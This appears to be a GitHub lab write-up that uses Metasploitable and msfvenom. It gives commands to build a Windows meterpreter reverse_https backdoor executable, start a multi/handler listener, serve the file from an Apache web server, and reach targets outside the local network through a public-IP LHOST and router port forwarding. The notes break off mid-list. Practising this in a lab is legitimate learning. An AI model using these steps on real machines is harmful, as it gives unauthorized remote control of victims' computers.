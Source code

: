 # Client Side Protection  

## Objective

Finding backdoors and payloads in the client side for protection

### Skills Learned

- Installing Metasploitable on a Mac (silicon)

  

### Tools Used

- Metasploitable
- Zenmap
- metasploit
- Msfvenom
  

### Steps for Client side vulnerabilities (Msfvenom)

- We can check all the payloads that msfvenom has
```bash
msfvenom --list payloads
```
- We can see the list of the payloads, the first part is the name, the second part is the description. (Platform/type/communication) thats the naming of the payloads. The communication is broken into direction and protocol.
- We can now check a payload and check its options
  
```bash
msfvenom --payload windows/meterpreter/reverse_https --list-options
```

- We can change the basic options, LHOST is our computer and LPORT is the port we want to listen on. We can change the values and choose a file format and name for the payload we want to create.
  
```bash
msfvenom --payload windows/meterpreter/reverse_https LHOST=192.168.233.134 LPORT=8080 --format exe --out reverse_https_8080.exe
```

- Now we will test the backdoor, we need to turn on Metasploit **msfconsole**.
- We then use the module to open a port on our computer.
```bash
use exploit/multi/handler
```

- We can change the payload to our own payload and the module options should change
```bash
set PAYLOAD windows/meterpreter/reverse_https
```
- We change the LHOST and LPORT to match the payload we made.
- We then start the module with **Exploit**

### Steps to deliver the payload to a target 

- We to go the default path of web server for Kali linux, var/www/html.
- We can create a folder (directory) and put the payload file we made.
- We start the web server from Kali
```bash
service apache2 start
```
- We can open the web server at the target machine by typing the IP address of the Kali in the target's browser.
- We can navigate to our directory. IP-address/name-of-div
- We then dowmload the file and install it ( need to download Avast to get the file to not be deleted and run as Admin)
- The promt of Kali will be **meterpreter>** which means our backdoor is installed. We can type **sysinfo** to find the OS of the target machine.


### Gaining access from Outside the local network using our router

- We can find router's IP address is by typing route -n. OR on the Mac in the wifi settings
- We login the routers settings from our computer and find the advance settings and port or IP forwading.
- We create the backdoor but the LHOST is our public IP
```bash
msfvenom --payload windows/meterpreter/reverse_https LHOST=72.212.179.202 LPORT=8080 --format exe --out reverse_https_8080_publicIP.exe
```
- We use msfconsole and use the payload exploit/multi/handler and change the options to our router options
<img width="909" alt="image" src="https://github.com/user-attachments/assets/5075ea90-5b1f-4a4b-92cc-b0c92f9d41a0" />

- We then exploit and now we are listenting to our private IP via port 8080.
- We now Configure the router to forward connection using the IP forwarding settings in the router.
![IMG_50479B949321-1](https://github.com/user-attachments/assets/c227e6ed-13c2-4b49-ad78-f19200afbebc)

- We create another rule for port 80 as well
- 














